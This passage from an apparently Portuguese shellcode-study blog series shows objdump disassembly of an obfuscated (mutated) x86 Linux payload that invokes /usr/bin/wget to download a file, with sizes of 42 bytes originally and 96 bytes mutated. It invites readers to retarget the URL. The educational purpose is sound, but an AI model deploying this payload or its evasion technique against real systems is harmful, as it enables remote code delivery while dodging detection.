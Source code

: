 int 0x80
{% endhighlight %} [//]: # (*)

E abaixo, a saída do objdump.

{% highlight console %}
08048060 <_start>:
 8048060: eb 01                 jmp    8048063 <_start+0x3>
 8048062: e8 29 db 74 01        call   9795b90 <__bss_start+0x174cad0>
 8048067: 83 f7 e3              xor    edi,0xffffffe3
 804806a: bd f5 ff ff ff        mov    ebp,0xfffffff5
 804806f: eb 01                 jmp    8048072 <_start+0x12>
 8048071: e8 68 41 65 45        call   4d69c1de <__bss_start+0x4565311e>
 8048076: 72 29                 jb     80480a1 <_start+0x41>
 8048078: f6 74 01 83           div    BYTE PTR [ecx+eax*1-0x7d]
 804807c: 5e                    pop    esi
 804807d: 56                    push   esi
 804807e: 81 f6 25 4a 1f 3e     xor    esi,0x3e1f4a25
 8048084: 56                    push   esi
 8048085: eb 01                 jmp    8048088 <_start+0x28>
 8048087: 33 68 69              xor    ebp,DWORD PTR [eax+0x69]
 804808a: 73 2e                 jae    80480ba <_start+0x5a>
 804808c: 67 89 44 24           mov    DWORD PTR [si+0x24],eax
 8048090: 0c 89                 or     al,0x89
 8048092: e1 6a                 loope  80480fe <_start+0x9e>
 8048094: 74 eb                 je     8048081 <_start+0x21>
 8048096: 01 e3                 add    ebx,esp
 8048098: 68 2f 77 67 65        push   0x6567772f
 804809d: eb 01                 jmp    80480a0 <_start+0x40>
 804809f: 83 68 2f 62           sub    DWORD PTR [eax+0x2f],0x62
 80480a3: 69 6e eb 01 33 68 2f  imul   ebp,DWORD PTR [esi-0x15],0x2f683301
 80480aa: 75 73                 jne    804811f <_start+0xbf>
 80480ac: 72 8d                 jb     804803b <_start-0x25>
 80480ae: 1c 24                 sbb    al,0x24
 80480b0: eb 01                 jmp    80480b3 <_start+0x53>
 80480b2: 83 50 51 53           adc    DWORD PTR [eax+0x51],0x53
 80480b6: 89 e1                 mov    ecx,esp
 80480b8: f7 dd                 neg    ebp
 80480ba: 95                    xchg   ebp,eax
 80480bb: eb 01                 jmp    80480be <_start+0x5e>
 80480bd: 83 cd 80              or     ebp,0xffffff80
{% endhighlight %} [//]: # (_)

Bem diferente, não acham?

Ao rodar o payload, é feito o download de um arquivo; se vocês acompanharam os
posts desde o início, vão saber dizer o conteúdo dele. Façam isso! Aguardo
contato informando o respectivo conteúdo. E após descobrirem, aproveitem e
modifiquem-no para usar a url que quiserem.

Original: 42 bytes<br>
Mutated: 96 bytes

End.
